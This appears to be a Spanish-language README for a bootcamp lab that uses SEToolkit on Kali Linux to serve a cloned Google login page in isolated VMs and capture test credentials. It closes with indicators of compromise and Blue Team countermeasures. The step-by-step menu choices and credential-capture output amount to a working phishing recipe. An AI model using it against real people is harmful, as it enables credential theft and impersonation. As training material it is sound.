










🌐 **Languages:** [Português](README.md) | [English](README.en.md) | [Español](README.es.md)

# 🎣 Laboratorio de Ciberseguridad: Simulación de Phishing y Credential Harvesting con SEToolkit en Kali Linux

Proyecto práctico desarrollado como parte del bootcamp **Santander Bootcamp - Cibersegurança** en la plataforma [DIO](https://dio.me).

---

## ⚖️ Aviso Legal (Disclaimer)

> **Aviso:** Todo el contenido de este laboratorio se ejecutó estrictamente en un entorno aislado y controlado (red interna de máquinas virtuales en VirtualBox), con el único propósito de aprendizaje técnico en ciberseguridad, análisis de vectores de ingeniería social y desarrollo de defensas, en total conformidad con las directrices éticas y la legislación aplicable (Ley brasileña nº 12.737/2012 - Delitos Informáticos). Las herramientas y técnicas aquí documentadas nunca deben emplearse en entornos de producción ni contra objetivos sin autorización previa por escrito.

---

## 🎯 Objetivos del Proyecto

- Comprender la anatomía y los mecanismos técnicos de los ataques de **Ingeniería Social** y **Credential Harvesting** (recolección de credenciales).
- Operar la herramienta **Social-Engineer Toolkit (SEToolkit)** en **Kali Linux** dentro de un entorno de pruebas controlado.
- Simular la clonación de páginas de autenticación y analizar el comportamiento del flujo de redirección HTTP POST.
- Documentar los desafíos reales de seguridad web encontrados durante la práctica (bloqueos de WAF, sistemas anti-scraping y certificados SSL).
- Identificar **Indicadores de Compromiso (IoC)** visibles para el usuario final.
- Estructurar contramedidas defensivas y recomendaciones de **Blue Team** para mitigar riesgos de phishing corporativo y personal.

---

## 🖥️ Topología del Laboratorio y Configuración de Red

| Activo / Máquina | Sistema Operativo | Rol en el Laboratorio | Dirección IP |
| :--- | :--- | :--- | :--- |
| **Atacante / Servidor** | Kali Linux (VM VirtualBox) | Ejecución de SEToolkit y listener HTTP (Puerto 80) | `192.168.1.101` |
| **Objetivo / Víctima** | Windows 10 (Host / Navegador) | Simulación de acceso de usuario y envío de credenciales | `192.168.1.103` |

Ambas máquinas operan conectadas al mismo segmento de red local controlado para garantizar condiciones seguras de prueba.

---

## 🔬 Ejecución Paso a Paso y Evidencias Técnicas

### Paso 1: Inicialización de SEToolkit
Se inicia **SEToolkit (Social-Engineer Toolkit)** con privilegios de superusuario (`root`), indispensables para abrir listeners en el puerto privilegiado 80 (HTTP) y administrar servicios de red.

```bash
sudo setoolkit
```

Al iniciar, el framework muestra el menú principal modular.



---

### Paso 2: Selección del Módulo de Ingeniería Social
En el menú principal, se selecciona la opción **`1) Social-Engineering Attacks`**, módulo enfocado en la explotación del factor humano en la seguridad de la información.

```text
set> 1
```



---

### Paso 3: Selección del Vector de Ataque Web (*Website Attack Vectors*)
Entre los vectores disponibles, se seleccionó **`2) Website Attack Vectors`**, especializado en la creación y alojamiento de interfaces web fraudulentas.

```text
set> 2
```



---

### Paso 4: Elección del Método *Credential Harvester*
En el submenú de ataques web, se seleccionó la opción **`3) Credential Harvester Attack Method`**. Este método levanta un servidor web que intercepta peticiones `POST` que contienen credenciales de acceso.

```text
set:webattack> 3
```



---

### Paso 5: Selección Inicial del Método *Site Cloner*
Para el primer intento práctico, se optó por **`2) Site Cloner`**, cuyo objetivo es clonar dinámicamente el código fuente HTML/CSS de una página web real.

```text
set:webattack> 2
```



---

### Paso 6: Configuración de Red y Objetivo Inicial (Intento con Facebook)
Se configuró la IP de retorno para el envío de los datos capturados (`192.168.1.101`) y se introdujo la URL objetivo inicial (`http://www.facebook.com` / `https://m.facebook.com`).

```text
set:webattack> IP address for the POST back in Harvester/Tabnabbing [192.168.1.101]: 192.168.1.101
set:webattack> Enter the url to clone: http://www.facebook.com
```



---

### Paso 7: Diagnóstico Anti-Scraping y Transición a Web Templates
Durante el intento de clonación directa de Facebook, la herramienta arrojó un error (`Unable to clone this specific site`).

**Análisis del problema:** Plataformas modernas como Meta emplean defensas perimetrales como **WAF (Web Application Firewall)**, validación estricta de User-Agent y comprobaciones anti-bot que bloquean peticiones automatizadas de raspado.

**Decisión técnica:** Para superar este obstáculo y cumplir el objetivo pedagógico de demostrar el *Credential Harvesting*, se migró a la opción **`1) Web Templates`**, seleccionando la plantilla integrada de **Google (Opción 2)**. SEToolkit inició el servicio exitosamente en el puerto 80.

```text
set:webattack> Select a template: 2
[*] Cloning the website: http://www.google.com
[*] The Social-Engineer Toolkit Credential Harvester Attack
[*] Credential Harvester is running on port 80
[*] Information will be displayed to you as it arrives below:
```



---

### Paso 8: Acceso de la Víctima a la Página Clonada
En la máquina cliente de prueba (`192.168.1.103`), el navegador web se dirigió a la dirección del servidor: `http://192.168.1.101`.

La página de autenticación de Google se mostró idéntica a la legítima, pero con **dos claros Indicadores de Compromiso (IoC)**:
1. **Falta de HTTPS:** El navegador alerta **"No seguro"**, ya que la conexión opera bajo HTTP plano sin certificado SSL/TLS válido para Google.
2. **Dirección en la barra de URL:** Muestra una dirección IP numérica directa (`192.168.1.101`) en lugar del dominio oficial `accounts.google.com`.



---

### Paso 9: Captura de Credenciales de Prueba en la Terminal
Se introdujeron credenciales ficticias de prueba en el formulario:
- **Correo:** `aluno.teste@gmail.com`
- **Contraseña:** `Senha1234`

Al pulsar en **Sign in**, los datos fueron transmitidos mediante una petición HTTP `POST` hacia Kali Linux. La terminal de SEToolkit capturó y registró los datos en tiempo real:

```text
[*] WE GOT A HIT! Printing the output:
PARAM: continue=https://accounts.google.com/o/oauth2/auth?...
POSSIBLE USERNAME FIELD FOUND: Email=aluno.teste@gmail.com
POSSIBLE PASSWORD FIELD FOUND: Passwd=Senha1234
[*] File in XML format exported to /root/.set/reports/2026-11-25 00:58:08.961381.xml for your reading pleasure
```



---

### Paso 10: Redirección de la Víctima al Sitio Oficial
Para disimular el ataque y retrasar la detección, SEToolkit emitió una respuesta de redirección automática HTTP (`Location: google.com`).

El navegador de la víctima fue enviado a la página oficial de Google (`https://www.google.com`), generando la falsa percepción de que sólo se trataba de una sesión expirada.



---

## 🧠 Desafíos Técnicos y Aprendizajes Clave

1. **Evolución de las Defensas Web (Anti-Scraping & WAF):**
   El fallo inicial al clonar Facebook demostró que las herramientas automáticas de clonación están obsoletas frente a servicios protegidos por tokens dinámicos e inspección de clientes.
2. **Ajuste de Parámetros de Redirección (`HARVESTER_REDIRECT`):**
   Valores residuales en `/etc/setoolkit/set.config` pueden ocasionar fallos de resolución DNS tras el envío del formulario. Comprender el flujo de encabezados HTTP (`302 Found` / `Location`) fue fundamental para diagnosticar el comportamiento de la herramienta.
3. **Inseguridad del Tráfico en Texto Claro (HTTP):**
   La captura instantánea de contraseñas evidenció la extrema vulnerabilidad de las comunicaciones no cifradas, donde cualquier intermediario en la red local puede interceptar datos confidenciales.

---

## 🛡️ Matriz de Mitigación y Defensa en Capas (Blue Team)

Para neutralizar los ataques de recolección de credenciales, las organizaciones deben aplicar **Defensa en Profundidad**:

### 1. Autenticación Resistente a Phishing
- **MFA Basado en FIDO2 / WebAuthn (Passkeys y Llaves Físicas):** El MFA tradicional (SMS u OTP) sigue siendo vulnerable a proxies de phishing inverso (*AitM*). Las llaves de seguridad FIDO2 enlazan la criptografía al dominio verificado (*Origin-Bound Authentication*), imposibilitando la autenticación en sitios fraudulentos como `192.168.1.101`.
- **Transición a Passwordless:** La sustitución de contraseñas estáticas por credenciales criptográficas elimina el riesgo de robo por suplantación de identidad.

### 2. Seguridad de Correo y Protección de Dominio
- **Políticas Estrictas de SPF, DKIM y DMARC:** Registros DNS con directiva `p=reject` impiden que los ciberdelincuentes falsifiquen la identidad de remitentes corporativos.
- **Secure Email Gateways (SEG):** Inspección dinámica de enlaces con protección *Time-of-Click* para desarmar URLs maliciosas antes del acceso del usuario.

### 3. Controles en Endpoint y Red
- **Filtrado DNS e Inteligencia de Amenazas:** Bloqueo automatizado hacia dominios recién registrados (*NRDs*) e IPs sin reputación.
- **Protección de Navegador (Safe Browsing / SmartScreen):** Mecanismos integrados que alertan sobre sitios web sospechosos o sin cifrado TLS.

### 4. Concientización Continua (*Human Firewall*)
- **Simulaciones Realistas de Phishing:** Evaluaciones periódicas para entrenar al personal en la detección de indicadores de alerta (dominios engañosos, falta de HTTPS, urgencia injustificada).
- **Cultura de Notificación sin Castigo:** Facilitar canales para que los empleados reporten interacciones sospechosas inmediatamente al equipo de SOC/CSIRT.

---

## 📚 Conclusión

Este laboratorio demostró el ciclo completo de un ataque de ingeniería social mediante páginas clonadas. Evidenció que la seguridad de las credenciales no depende únicamente de su complejidad, sino de la integridad del canal y la conciencia situacional del usuario. La solución definitiva requiere combinar autenticación criptográfica moderna (FIDO2) con programas activos de concientización y monitoreo.

---

## 🔗 Referencias

- [DIO - Digital Innovation One](https://dio.me)
- [Repositorio Oficial de SEToolkit](https://github.com/trustedsec/social-engineer-toolkit)
- [Documentación Oficial de Kali Linux](https://www.kali.org/tools/set/)
- [FIDO Alliance - Phishing-Resistant MFA](https://fidoalliance.org/)
- [CISA - Phishing Prevention Guidance](https://www.cisa.gov/)
- [OWASP - Phishing Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/)
